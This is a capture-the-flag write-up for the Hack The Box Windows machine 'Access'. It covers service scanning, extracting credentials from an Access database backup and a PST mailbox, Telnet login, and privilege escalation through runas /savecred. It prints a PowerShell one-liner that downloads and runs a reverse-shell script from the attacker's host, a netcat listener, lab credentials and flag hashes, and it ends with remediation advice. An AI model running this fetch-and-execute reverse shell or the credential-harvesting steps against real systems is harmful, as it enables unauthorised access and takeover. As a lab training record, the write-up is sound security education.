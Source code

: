 # HTB: Access

**Operating System:** Windows
**Difficulty:** Easy
**Date of Engagement:** 2025-09-16

---

## Engagement Overview

**Target IP:** 10.10.10.98
**Local IP:** 10.10.14.3

**Objective:** Enumerate services, recover credentials from backups/mail archives, obtain a low-privilege shell, escalate to Administrator, capture `user.txt` and `root.txt`. Source steps and logs are from your notes and collected artifacts.

---

## Reconnaissance

### Nmap
```
sudo nmap -sC -sV -T5 -oA logs/nmap 10.10.10.98
```

**Relevant output (condensed):**

- 21/tcp open  ftp (Microsoft ftpd) 
- 23/tcp open  telnet
- 80/tcp open  http (Microsoft IIS 7.5)

### Web / content discovery
- Gobuster attempts produced timeouts; web root returned mostly images but FTP/weblisting revealed backup artifacts.

### Discovered artifacts
- `Backups/backup.mdb`
- `Engineer/Access Control.pst`
- `Engineer/Access Control.zip`

---

## Initial Access — Extracted Credentials

From `backup.mdb` and exported tables:
- `engineer` : `access4u@security` (auth_user table)
- Used to extract `Access Control.pst` from `Access Control.zip`

From `Access Control.pst` (email content):
- `security` : `4Cc3ssC0ntr0ller`.

*(These credentials were located using `strings`, `mdbtools` and `readpst` .)*

---

## Methodology & Tools

**Primary methodology:**  

1. Service enumeration (`nmap`).
2. Locate and download backup artifacts (MDB, PST/MBX, ZIP).
3. Extract text from artifacts (`strings`, `mdbtools`, `readpst`) to find credentials.
4. Authenticate to exposed services (Telnet) to obtain a user shell.
5. Abuse a discovered `.lnk` referencing `runas /savecred` to run a remote PowerShell payload as Administrator.
6. Capture flags and document steps.

**Tools:** `nmap`, `gobuster` (attempted), `strings`, `mdbtools` (`mdb-tables`, `mdb-export`), `pst-utils`/`readpst`, `telnet`, `nc` (netcat), `runas`, and a Nishang PowerShell one-liner (hosted on attacker box).

---

## Reproducible Steps & Commands

### Recon & artifact download
```bash
sudo nmap -sC -sV -T5 -oA logs/nmap 10.10.10.98
# after finding web/ftp listings, download:
# 10.10.10.98/Backups/backup.mdb
# 10.10.10.98/Engineer/Access Control.zip
```

### Artifact inspection & credential harvesting
```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

# mdbtools (export auth_user)
mdb-tables backup.mdb
mdb-export backup.mdb auth_user

# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

**Recovered credentials (used):**
- `engineer:access4u@security` (from `backup.mdb`).
- `security:4Cc3ssC0ntr0ller` (from PST/mbox email). 

### Use credentials to access Telnet
```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller

# verify shell and user flag
whoami        # access\security
type C:\Users\security\Desktop\user.txt
```

**User flag captured:** `cb237095f1d0b24079794fa1a2932c1b`. 

### Privilege escalation via runas / saved creds
- Found a desktop `.lnk` referencing `runas.exe` with `ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"`. The LNK contained the `runas` invocation.

Example trigger used (hosted Nishang one-liner; attacker listener on port 443):
```powershell
# on attacker: listener
nc -lnvp 443

# on target: trigger runas to download+execute Nashang one-liner
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell received as Administrator; `root.txt` retrieved.

**Root flag captured:** `bc97e19e6897f692e5272f63e763a3a8`. fileciteturn1file0

---

## Privilege Escalation — Notes
- Escalation relied on misconfigured saved-credential usage triggered via a `.lnk` referencing `runas /savecred`. No kernel exploit required.

---

## Key Takeaways & Remediation
1. **Protect backup artifacts and mailbox exports** — encrypt backups and restrict access. 
2. **Remove/replace legacy services** — avoid Telnet/anonymous FTP; use secure alternatives. 
3. **Avoid saved-credential patterns** — `runas /savecred` and shortcuts referencing privileged accounts must be audited/removed.
4. **Monitor for remote PowerShell downloads and runas invocations** — host/IDS rules can detect similar abuse.

